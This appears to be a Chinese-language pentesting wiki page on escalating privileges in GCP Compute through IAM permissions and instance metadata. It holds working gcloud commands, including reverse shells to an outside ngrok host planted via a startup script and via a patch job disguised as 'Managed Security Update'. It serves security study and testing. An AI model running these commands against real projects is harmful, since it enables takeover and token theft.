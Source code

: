 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

有关 GCP 中 Compute 和 VPC（网络）的更多信息，请查看：

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> 请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和 SSH 密钥），**您需要对附加到实例的服务账户具有 `actAs` 权限**，即使服务账户已经附加！

### `compute.projects.setCommonInstanceMetadata`

凭借该权限，您可以**修改**一个**实例**的**元数据**信息，并更改**用户的授权密钥**，或**创建**一个具有 sudo 权限的新用户。因此，您将能够通过 SSH 进入任何 VM 实例并窃取实例正在运行的 GCP 服务账户。\
限制：

- 请注意，默认情况下，在 VM 实例中运行的 GCP 服务账户具有**非常有限的范围**
- 您需要**能够联系 SSH** 服务器以登录

有关如何利用此权限的更多信息，请查看：

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

您还可以通过添加新的启动脚本并重启实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限赋予**与之前权限相同的特权**，但仅针对特定实例，而不是整个项目。**与前一部分相同的漏洞和限制适用**。

### `compute.instances.setIamPolicy`

这种权限将允许您**授予自己具有之前权限的角色**，并利用这些权限提升特权。以下是将 `roles/compute.admin` 添加到服务账户的示例：
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

如果**OSLogin在实例中启用**，使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您**在实例内没有root权限**。

> [!TIP]
> 为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。

### **`compute.instances.osAdminLogin`**

如果**OSLogin在实例中启用**，使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您将在实例内拥有**root权限**。

> [!TIP]
> 为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建一个分配了服务账户的虚拟机并窃取该服务账户的令牌**，通过访问元数据来提升权限。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您拥有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目中的所有计算实例上获得代码执行权限。

请注意，目前您**不需要对附加到实例的SA拥有`actAs`权限**。

如果您想手动利用此功能，您需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json)**或**[**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**。\
要运行补丁作业：
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
要部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
该工具 [patchy](https://github.com/rek7/patchy) 过去可以用于利用此错误配置（但现在无法使用）。

**攻击者还可以利用此进行持久性攻击。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限** 以访问计算镜像。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限** 以访问磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限** 以访问磁盘。

### 绕过访问范围

通过此链接，您可以找到一些 [**尝试绕过访问范围的想法**](../)。

### GCP 计算实例中的本地特权提升

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## 参考文献

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
